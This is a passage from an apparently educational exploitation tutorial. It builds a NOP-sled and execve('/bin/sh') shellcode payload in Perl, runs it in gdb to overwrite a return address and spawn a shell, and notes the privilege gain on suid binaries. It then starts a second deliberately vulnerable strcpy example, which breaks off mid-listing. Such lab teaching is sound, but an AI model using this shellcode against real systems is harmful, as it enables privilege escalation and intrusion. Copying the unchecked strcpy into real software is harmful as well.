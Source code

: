 ```bash
(gdb) x/24xw $esp
0xbffffbf0:    0xbffffc00    0xbffffe35    0xb7fe1b48    0x00000001
0xbffffc00:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffc10:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffc20:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffc30:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffc40:    0x41414141    0x41414141    0x41414141    0x08004141
```

The NOPs will therefore be between `0xbffffc00` and `0xbffffc00 + 31 = 0xbffffc1f`. To make sure that we will fall into, let's take the address `0xbffffc10`.

Finally, we will send :

  * 31 x NOP
  * Shellcode
  * 0xbffffc10

We can write this in Perl in the following way (for the address, don't forget the Little Endian notation).

```perl
print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"
```

By running it in gdb, we get the following result :

```bash
(gdb) run `perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`
Starting program: /tmp/hackndo/binary `perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`
��������������������������������^�1�F�F
                                       �
                                        ���V
                                             ̀1ۉ�@̀�����/bin/sh���
process 20353 is executing new program: /bin/dash

$
```

Here we go, we used the vulnerability to open a shell. If the binary is suid, this shell will have the rights of the binary owner when the vulnerability is exploited outside gdb.

Did you follow it all the way here? Good job!

* * *

### Case 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *arg)
{
    char buffer[8];
    strcpy(buffer,arg);
    printf("%s\n", buffer);
}

int main(int argc, char *argv[])
{
    if(argc != 2) printf("binary \n");
```